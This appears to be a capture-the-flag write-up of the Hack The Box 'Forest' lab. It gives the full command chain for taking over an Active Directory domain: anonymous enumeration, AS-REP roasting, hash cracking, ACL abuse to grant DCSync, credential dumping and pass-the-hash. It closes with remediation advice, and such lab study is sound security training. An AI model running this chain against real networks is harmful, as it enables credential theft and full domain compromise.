






# Forest — Hack The Box

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Windows (Active Directory) |
| **Key techniques** | Anonymous LDAP/RPC enumeration, AS-REP Roasting, BloodHound, ACL abuse (WriteDACL), DCSync |

---

## TL;DR

Forest is a Domain Controller with Exchange installed that allows
anonymous LDAP binds, enough to enumerate the domain without any
credentials. That turns up a service account with Kerberos
pre-authentication disabled, which I AS-REP roast and crack offline.
BloodHound then shows the account inherits **Account Operators** through
nested group membership, and from there a chain through **Exchange
Windows Permissions**' `WriteDACL` grants DCSync rights — a straight line
from anonymous LDAP to Domain Admin.

---

## Recon

```bash
nmap -sC -sV 10.129.95.210
```


Results: Kerberos (88), RPC (135), LDAP (389), SMB (445), WinRM (5985).

### LDAP

Worth checking if LDAP allows anonymous binds:

```bash
ldapsearch -x -H ldap://10.129.95.210 -s base
```



We were able to query the domain without credentials — null bind is
enabled.

### RPC and Kerbrute

Used `rpcclient` to enumerate users anonymously, then `kerbrute` to
confirm which usernames are valid:

```bash
rpcclient -U "" 10.129.95.210 -N
enumdomusers

kerbrute userenum --dc 10.129.95.210 -d htb.local users.txt
```


Found a service account: `svc-alfresco`.

---

## Foothold / Initial Access

With a list of valid usernames but no idea about the lockout policy,
brute-forcing felt too risky this early. AS-REP Roasting doesn't require
guessing and doesn't touch the lockout counter, so that was the move:

```bash
impacket-GetNPUsers htb.local/svc-alfresco -no-pass -dc-ip 10.129.95.210
```



`svc-alfresco` has pre-authentication disabled, so this returns a
crackable hash directly:

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```



Password: `s3rvice`. Port 5985 (WinRM) was open, so that credential turns
straight into a shell:

```bash
evil-winrm -i 10.129.95.210 -u svc-alfresco -p s3rvice
```

Foothold as `svc-alfresco`, user flag retrieved.

---

## Privilege Escalation

### Active Directory recon

A single domain user is rarely the end goal — the real question is what
that account can reach. Uploaded SharpHound to collect data about the
domain:

```powershell
upload SharpHound.exe
.\SharpHound.exe -All
download <collection>.zip
```



Imported into BloodHound and searched for `svc-alfresco`. It's a member
of **six groups through nested membership** — invisible from `net user`
output, only visible once you graph it. One of those nested groups is
**Account Operators**, a built-in AD group whose members can create and
modify users and add them to non-protected groups.

That's a foothold into user management, but not yet Domain Admin, so I
ran *Shortest Path to High Value Targets* to see where it leads. One path
shows the **Exchange Windows Permissions** group holding **`WriteDACL`**
on the domain object itself:



`WriteDACL` means a member of that group can modify the domain's access
control list — including granting DCSync rights to any principal they
choose. Account Operators can add users to Exchange Windows Permissions,
and Exchange Windows Permissions can grant DCSync — two privileges that
look unrelated on their own chain into full domain replication rights.

### Executing the chain

Created a new user (using the Account Operators right) and added it to
Exchange Windows Permissions and Remote Management Users:

```powershell
*Evil-WinRM* PS> net user backdoor <PASSWORD> /add /domain
*Evil-WinRM* PS> net group "Exchange Windows Permissions" backdoor /add
*Evil-WinRM* PS> net localgroup "Remote Management Users" backdoor /add
```

Then used PowerView, authenticated as the new user, to grant it DCSync
rights via the `WriteDACL` privilege:

```powershell
*Evil-WinRM* PS> Import-Module .\PowerView.ps1
*Evil-WinRM* PS> $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
*Evil-WinRM* PS> $Cred = New-Object System.Management.Automation.PSCredential('htb\backdoor', $SecPassword)
*Evil-WinRM* PS> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity backdoor -Rights DCSync
```

With DCSync rights granted, a standard DCSync attack dumps every
credential in the domain, including the Administrator's NTLM hash:

```bash
impacket-secretsdump htb.local/backdoor@10.129.95.210
```

That hash is enough for a pass-the-hash shell as Administrator:

```bash
impacket-psexec administrator@10.129.95.210 -hashes aad3b435b51404eeaad3b435b51404ee:<NT_HASH>
```

Domain Admin, root flag retrieved from
`C:\Users\Administrator\Desktop\root.txt`.

---

## Lessons Learned

- Anonymous LDAP bind is a bigger deal than it looks — it turned "no
  credentials" into a full username list before I'd exploited anything.
- AS-REP Roasting should be tried before any password spray — it costs
  nothing, doesn't risk a lockout, and is often faster than guessing.
- Nested group membership hides real privilege. `net user` alone would
  never have shown the path to Account Operators — BloodHound's graph is
  what made the chain visible.
- Small privileges chain into big ones. Account Operators (manage users)
  and WriteDACL (modify ACLs) are individually limited, but together they
  produce DCSync — full domain compromise.

---

## Remediation

- Disable anonymous LDAP binds unless there's a specific, documented
  reason to allow them.
- Enable Kerberos pre-authentication on every account — audit for
  `DONT_REQ_PREAUTH` regularly, not just at account creation.
- Treat **Account Operators** and any group with `WriteDACL`/`WriteOwner`
  on the domain object as Tier-0 (Domain Admin–equivalent) privilege, and
  audit membership accordingly.
- Run BloodHound (or an equivalent ACL-graphing tool) against your own
  domain periodically — this attack path is invisible to standard
  group-membership audits.

---

## Tools used

- `nmap`
- `ldapsearch`, `rpcclient`, `kerbrute`
- Impacket (`GetNPUsers`, `secretsdump`, `psexec`)
- `hashcat`
- `evil-winrm`
- SharpHound / BloodHound, PowerView

---

**See also:** [Active Directory methodology](../../methodology/active-directory.md)

---

**Machine:** [Hack The Box — Forest](https://www.hackthebox.com/machines/forest)

---

**Live version:** [read this write-up on my blog](https://debasjan.github.io/writeups/forest/)
